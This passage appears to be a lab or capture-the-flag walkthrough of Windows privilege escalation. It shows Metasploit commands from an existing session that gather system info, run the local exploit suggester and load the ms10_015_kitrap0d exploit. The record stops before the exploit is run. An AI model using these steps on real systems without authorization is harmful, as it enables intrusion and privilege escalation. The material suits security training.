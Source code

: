 ![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556948551825_image.png)

first step:

    sysinfo

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556949035780_image.png)

check *architecture check which is an x86*

    shell
    systeminfo # inside of shell

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556949110968_image.png)

*normally would say the hotfixes installed but in this case it says N/A which could mean this machine has never been updated. Keep in mide the boot time, and Service Pack*

## metasploit exploit suggester

background current shell and search for suggest

    search suggest

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556949248261_image.png)

use `local_exploit_suggester`

    use post/multi/recon/local_exploit_suggester
    show options

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556949351579_image.png)

set session to current session:

    set SESSION 1

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556949386833_image.png)

    run

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556949463813_image.png)

*since this box hasn’t been updated since release with a release date of 2009 selecting any of the returned vulnerable exploits might work.*

Choosing the first exploit ms10-015 kitrap0d

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556949606429_image.png)

    use exploit/windows/local/ms10_015_kitrap0d
    show options

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556949647444_image.png)

    set SESSION 1
    show options # second time to verify that the session was added.
